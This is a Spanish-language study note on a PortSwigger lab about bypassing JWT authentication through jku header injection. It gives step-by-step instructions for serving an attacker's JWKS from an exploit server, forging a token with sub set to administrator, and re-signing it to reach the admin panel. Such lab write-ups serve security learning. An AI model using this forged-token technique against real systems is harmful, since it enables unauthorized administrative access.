

---
aliases:
  - JWT 005 - jku injection
  - JWKS en exploit server
tags:
  - vuln/jwt
  - example
  - portswigger
---

# 005 — `jku` injection (JWKS en tu server, self-signed)

> Lab: [JWT authentication bypass via jku header injection](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-jku-header-injection) · Practitioner · Teoría → [[how-to-work/jwt#3. `kid`, `jwk`, `jku` (cómo el server elige la clave)|jku en how-to-work]] · [[vulnerabilities/018-jwt-attacks/jwt-attacks|entry point]]

## Qué muestra
El server descarga la clave de verificación desde la **URL del header `jku`** sin validar el dominio. Apuntás `jku` a **tu exploit server**, que sirve **tu** clave pública.

## JWT (original → modificado)

Las 3 partes decodificadas. <mark style="background:#a5d6a7;color:#111">🎯 objetivo</mark> = lo que querés · <mark style="background:#ffcc80;color:#111">⚙️ consecuencia</mark> = lo que cambia para que valide · <mark style="background:#90caf9;color:#111">🔗 kid</mark> = **idéntico** en el header del JWT y en tu JWKS.

| Parte | Original | Modificado |
| --- | --- | --- |
| **header** | { "kid": "…", "alg": "RS256" } | { "kid": <mark style="background:#90caf9;color:#111">"&lt;tu-kid&gt;"</mark>, "alg": "RS256", <mark style="background:#ffcc80;color:#111">"jku": "https://TU-EXPLOIT-SERVER/exploit"</mark> } |
| **payload** | { "sub": "wiener" } | { "sub": <mark style="background:#a5d6a7;color:#111">"administrator"</mark> } |
| **signature** | RSA (clave privada del server) | <mark style="background:#ffcc80;color:#111">re-firmada con TU clave privada</mark> (el server baja tu JWKS del `jku`) |

> **🎯 Objetivo:** `sub → administrator`. **⚙️ Consecuencia:** apuntar `jku` a tu JWKS y **re-firmar** con tu clave privada (el <mark style="background:#90caf9;color:#111">kid</mark> debe coincidir con el de tu clave).

## Diagrama



## Por qué funciona
- El server confía en que el `jku` apunte a un JWKS legítimo, pero **no valida el dominio** → lo mandás a tu server.
- El <mark style="background:#90caf9;color:#111">kid</mark> del token elige tu clave dentro del `keys[]` que servís.

## Cómo explotarlo (paso a paso)
1. **New RSA Key** en JWT Editor. Copiá su **JWK público**.
2. En el **exploit server** serví un JWK Set (Content-Type `application/json`):
   ```json
   { "keys": [ { PEGÁ_ACÁ_TU_JWK_PÚBLICO } ] }
   ```
3. En el header del JWT: `"jku":"https://TU-EXPLOIT-SERVER/exploit"`, <mark style="background:#90caf9;color:#111">"kid":"EL-KID-DE-TU-CLAVE"</mark>, payload `"sub":"administrator"`.
4. **Sign** con tu RSA (RS256) → enviá → `/admin` → borrar `carlos`.

## 🔑 Cómo luce el JWK público (para reconocerlo en la desesperación)

En JWT Editor: pestaña **Keys** → clic derecho en tu RSA → **Copy Public Key as JWK**. Lo que copiás luce así (un objeto JSON de una sola clave):

```json
{
    "kty": "RSA",
    "e": "AQAB",
    "kid": "e55f6fb2-bb1a-45e1-bedb-e97eb89cd04f",
    "n": "wJz8Hh...ESTE-CAMPO-ES-LARGUÍSIMO-cientos-de-chars-base64url...Qk9Y"
}
```

> [!tip] ✅ Cómo sabés que es la PÚBLICA (y no la privada)
> La pública tiene **solo estos campos**: `kty`, `e`, `kid`, `n` (a veces `alg`). Nada más.
> - `n` = módulo (larguísimo). `e` = exponente, casi siempre `"AQAB"`.
> - **Si ves un campo `"d"`, ES LA PRIVADA → NO la subas.** La privada trae además `d`, `p`, `q`, `dp`, `dq`, `qi`. Ese `d` es tu secreto: subirlo al exploit server es regalar tu clave.

> [!danger] ⚠️ El error clásico
> Copiar **Copy Key** (que incluye la privada con `d`) en vez de **Copy Public Key as JWK**. Si tu JSON del exploit server tiene `"d"`, estás sirviendo la privada. Debe tener solo `kty`/`e`/`kid`/`n`.

Y así va **envuelto en el JWKS** que servís en el exploit server (fijate el `keys[]` que lo rodea):

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "e55f6fb2-bb1a-45e1-bedb-e97eb89cd04f",
            "n": "wJz8Hh...MISMO-n-DE-ARRIBA...Qk9Y"
        }
    ]
}
```

> [!note] 🔗 El `kid` es el hilo que une todo
> El <mark style="background:#90caf9;color:#111">kid</mark> de este JWK (dentro de `keys[]`) tiene que ser **idéntico** al <mark style="background:#90caf9;color:#111">kid</mark> que ponés en el header del JWT. Es lo que hace que el server, entre todas las claves del `keys[]`, elija **la tuya**.

## Verificación
- En el access log del exploit server ves el `GET` del server a tu `/jwks.json`, y el token valida.

## Detalles que se pasan por alto
- El <mark style="background:#90caf9;color:#111">kid</mark> del token y el <mark style="background:#90caf9;color:#111">kid</mark> de tu clave en el JWKS **deben coincidir**.
- Único lab de JWT que necesita **exploit server** (los demás son de un solo actor).
